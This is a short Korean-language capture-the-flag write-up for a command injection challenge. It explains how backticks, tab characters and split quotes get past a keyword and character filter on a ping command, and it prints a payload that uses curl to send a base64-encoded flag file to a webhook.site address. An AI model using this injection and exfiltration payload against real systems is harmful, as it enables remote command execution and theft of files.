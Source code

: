 # CMDI (Adv)
CMDI 문제와 똑같지만 필터링이 몇개 더 추가된 문제이다.

이번 문제의 필터링은 ['[','$','cat','flag.py','"','*','?',' ']이다.

`cmd = f'ping -c 3 "{host}"'` 파이썬에서의 입력은 이렇게 되는데, Dquote(")가 필터링 되어 문자열 안에 항상 남아있어야 하는 문제이다.

문자열 안에서 Command를 실행할 수 있는 방법은 여러가지가 있는데, 가장 유명하고 좋은 것은 $()이다.

하지만 Dollar($)가 필터링 되어 사용할 수 없다.

그래서 찾아낸 것이 Back quote(`)이다. 문자열 안에서 Back quote 안에 Command를 작성할 경우 같이 실행된다.

단, 원래 실행될 명령어가 실패할 경우 실행되지 않는다.

```
URL Encode:
8.8.8.8`curl%09https://webhook.site/webhook-id%09-d%09\`c'a't%09fl'a'g.py|base64\``

URL Decode:
8.8.8.8`curl	https://webhook.site/webhook-id	-d	\`c'a't	fl'a'g.py|base64\`
```

위와 같이 코드를 작성하였다.
 
White Space가 필터링이기 때문에 `%09`(Tab)으로 우회하였고, curl에서 POST로 flag 값을 전달하기 위해 `cat flag.py`를 Back quote 내에서 한번 더 선언했어야 했는데 이미 Back quote 안에서 명령어를 실행 중이였기에 \\`로 우회하였다. 그리고 base64 encoding을 하여 flag 값을 전달받았다.

## Flag
flag{are_you_the_master_of_command_injection?}